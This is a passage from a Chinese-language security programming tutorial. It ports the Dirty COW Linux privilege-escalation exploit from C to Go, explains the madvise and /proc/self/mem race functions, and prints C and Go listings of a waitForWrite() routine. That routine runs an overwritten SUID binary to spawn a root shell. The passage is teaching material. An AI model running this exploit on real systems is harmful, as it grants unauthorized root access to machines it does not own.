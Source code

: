 清单 9-9: Go中的竞争条件函数

竞争条件函数使用各种变量进行信号传递。这两个函数都包含for循环，该循环需要多次迭代。C版本检查 `stop` 变量的值，而Go版本使用 `select` 语句尝试从 `signals` 管道读取。当信号出现时，函数返回。如果没有信号在等待，则执行 `default` 。`madvise()` 和`procselfmem()` 函数之间的主要区别是 `default` 的处理。在我们的 `madvise()` 函数中您向 `madvise()` 函数发出一个Linux系统调用，而 `procselfmem()` 函数则向 `lseek()` 发出Linux系统调用，并将有效负载写入内存。

以下是这些函数的C和Go版本之间的主要区别：

* Go版本使用管道来确定何时提前中断循环，而C函数使用一个整数值来指示发生线程竞争何时中断循环。
* Go版本使用 `syscall` 包调用Linux系统。传递给该函数的参数包括要调用的系统函数及其必需的参数。可以通过搜索Linux文档来找到函数的名称，用途和参数。这就是我们能够调用本地Linux函数的方式。

现在来回顾一下 `waitForWrite()` 函数，该函数监视SUID是否发生更改，以便执行shellcode。C版本如清单9-10所示，Go版本如清单9-11所示。

```c
void *waitForWrite(void *arg) {
    char buf[sc_len];
    for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary); break;
        }
        fclose(fp);
        sleep(1); 
    }
    stop = 1;
    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");
    system(suid_binary); 
}
```

清单 9-10: C 中的 _waitForWrite\(\)_ 函数

```go
func waitForWrite() {
    buf := make([]byte, len(sc))
    for {
        f, err := os.Open(SuidBinary) 
        if err != nil {
            log.Fatal(err) 
        }
        if _, err := f.Read(buf); err != nil { 
            log.Fatal(err)
        }
        f.Close()
        if bytes.Compare(buf, sc) == 0 {
            fmt.Printf("%s is overwritten\n", SuidBinary)
            break 
        }
        time.Sleep(1*time.Second) 
    }
    signals <- true 
    signals <- true

    fmt.Println("Popping root shell") 
    fmt.Println("Don't forget to restore /tmp/bak\n")

    attr := os.ProcAttr {
        Files: []*os.File{os.Stdin, os.Stdout, os.Stderr},
    }
    proc, err := os.StartProcess(SuidBinary, nil, &attr)
    if err !=nil {
        log.Fatal(err) 
```